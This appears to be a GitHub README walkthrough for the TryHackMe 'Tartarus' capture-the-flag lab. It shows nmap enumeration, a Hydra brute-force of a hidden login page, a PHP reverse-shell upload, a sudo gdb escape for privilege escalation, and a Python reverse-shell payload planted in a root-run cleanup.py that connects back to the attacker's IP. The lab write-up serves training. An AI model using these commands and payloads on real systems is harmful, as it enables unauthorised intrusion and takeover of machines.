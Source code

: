 # TryHackMe_Tartarus
This is an beginner box based on simple enumeration of services and basic privilege escalation techniques.

The goal is to find user.txt and root.txt

# Gain access to the machine

Run nmap 

```
nmap -sC -sV -oN namp_results.txt
```

And you'll find three port open.

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 ftp      ftp            17 Jul 05 21:45 test.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.24.148
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 98:6c:7f:49:db:54:cb:36:6d:d5:ff:75:42:4c:a7:e0 (RSA)
|   256 0c:7b:1a:9c:ed:4b:29:f5:3e:be:1c:9a:e4:4c:07:2c (ECDSA)
|_  256 50:09:9f:c0:67:3e:89:93:b0:c9:85:f1:93:89:50:68 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

The FTP protocol has anonymous connection enable., so connect whith FTP and un 

```
ls -la
```

Notice a wierd folder named '...', follow the path to find the hidden login page.
To get some credentials, check the robots.txt, i user the python script in this repo to get the login but Hydra will do the job.

```
hydra -l enox -P credentials.txt {machine ip} http-post-form "/sUp3r-s3cr3t/authenticate.php:username=^USER^&password=^PASS^:Incorrect password!"
```

Once you logged in you can upload a file,
i suggest a php reverse shell,
use gobuster to find where is located the rev shell

```
gobuster dir -u {machine ip}/sUp3r-s3cr3t/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
Once you find the reverse shell set up a listener

```
nc -lnvp {the port in the rev shell file}
```

and then make the shell stable

```
python -c 'import pty; pty.spawn("/bin/bash")'
```

# User escalation

Ok now we are in, let's check if there's a SUID to escalate

```
sudo -l
```

You can see that gdb is runnable wothout password, use GTFOBins (great site!) to escalate.

```
sudo -u thirtytwo /var/www/gdb -nx -ex '!sh' -ex quit
```

Now you are thirtytwo.

# Root escalation

Look around in the /home directory and you'll see a cleanup.py file, this file can be run as root.
Let's edit th file with 

```
nano cleanup.py
```

and replace the content with 
```
import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("{your ip}",{any port you want}));
os.dup2(s.fileno(),0); 
os.dup2(s.fileno(),1); 
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);'
```

on your machine setup another listener with the port you choose and BOOM!, you are root.

# Find the flags

Run the two following commands

```
find / -name 'user.txt' 2>/dev/null
```
and
```
find / -name 'root.txt' 2>/dev/null
```
 and you're done!
 
 # CONGRATULATIONS!
